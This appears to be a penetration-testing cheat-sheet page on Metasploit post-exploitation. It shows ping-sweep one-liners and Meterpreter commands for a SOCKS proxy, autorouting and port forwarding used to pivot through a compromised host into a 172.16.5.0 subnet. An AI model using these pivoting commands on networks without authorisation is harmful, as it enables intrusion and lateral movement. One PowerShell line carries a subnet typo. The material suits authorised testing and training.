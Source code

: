 # Ⓜ️ Metasploit

To do a ping sweep post exploitation:

```
meterpreter > run post/multi/gather/ping_sweep RHOSTS=172.16.5.0/23
```

Manually

{% code title="Linux" %}
```bash
for i in {1..254} ;do (ping -c 1 172.16.5.$i | grep "bytes from" &) ;done
```
{% endcode %}

{% code title="CMD" %}
```
for /L %i in (1 1 254) do ping 172.16.5.%i -n 1 -w 100 | find "Reply"
```
{% endcode %}

{% code title="Powershell" %}
```powershell
1..254 | % {"172.16.5.$($_): $(Test-Connection -count 1 -comp 172.15.5.$($_) -quiet)"}
```
{% endcode %}

## Proxy

Suppose wanna use a pivot host to access one more machine use this technique to get all meterpreter goodies:

{% code title="/etc/proxychains.conf socks4 127.0.0.1 9050" %}
```
msf6 > use auxiliary/server/socks_proxy
msf6 auxiliary(server/socks_proxy) > set SRVPORT 9050
SRVPORT => 9050
msf6 auxiliary(server/socks_proxy) > set SRVHOST 0.0.0.0
SRVHOST => 0.0.0.0
msf6 auxiliary(server/socks_proxy) > set version 4a
version => 4a
msf6 auxiliary(server/socks_proxy) > run
```
{% endcode %}

Then to route all traffic through meterpreter

```shell-session
msf6 > use post/multi/manage/autoroute
msf6 post(multi/manage/autoroute) > set SESSION 1
SESSION => 1
msf6 post(multi/manage/autoroute) > set SUBNET 172.16.5.0
SUBNET => 172.16.5.0
msf6 post(multi/manage/autoroute) > run
```

Can also be run directly in the meterpreter session: &#x20;

```shell-session
meterpreter > run autoroute -s 172.16.5.0/23
```

\
Port Forwarding
---------------

```shell-session
meterpreter > help portfwd
```

```shell-session
meterpreter > portfwd add -l 3300 -p 3389 -r 172.16.5.19
```

The above command requests the Meterpreter session to start a listener on our attack host's local port (`-l`) `3300` and forward all the packets to the remote (`-r`) Windows server `172.16.5.19` on `3389` port (`-p`) via our Meterpreter session'

